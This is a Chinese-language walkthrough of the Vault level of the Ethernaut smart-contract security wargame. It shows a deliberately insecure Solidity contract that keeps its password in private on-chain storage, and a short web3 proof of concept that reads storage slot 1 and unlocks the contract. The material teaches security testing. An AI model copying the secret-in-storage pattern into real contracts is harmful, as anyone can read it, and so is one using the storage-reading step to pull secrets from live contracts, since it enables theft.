

<!-- more -->

::: tip

目前来看最全面的智能合约安全靶场:+1:

https://ethernaut.openzeppelin.com/ 

浏览器控制台 help()指令



:::

#### 第八关Vault  思路与POC

##### 目标: 想办法设置locked变量为false

#### 先看代码:

##### 获取到密码即可解锁

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
  bool public locked;
  //emm 密码没有加密放在链上,但是设置为私有
  bytes32 private password;

  constructor(bytes32 _password) {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

##### poc思路:point_right:：其实链上的数据都是可以读取的,设置类型为private或者internal仅仅是其他合约不能获取到而已

```js
/*
首先需要了解链上数据在合约中是怎么存储的：每个合约都能够使用2^256数量单位的slot,每个slot大小为32字节
   bool public locked; -> slot 0 index 0 
   bytes32 private password; ->slot 1 index 1
   所以链下需要读取slot1的数据
   web3.eth.getStorageAt('contract address',slotNumber)
*/
await web3.eth.getStorageAt('0xc49187d591C476cEA043F37068880F79a8015F9F',1,(err,res)=>{console.log(res)})
'0x412076657279207374726f6e67207365637265742070617373776f7264203a29'
//成功解锁
await contract.unlock('0x412076657279207374726f6e67207365637265742070617373776f7264203a29')
```

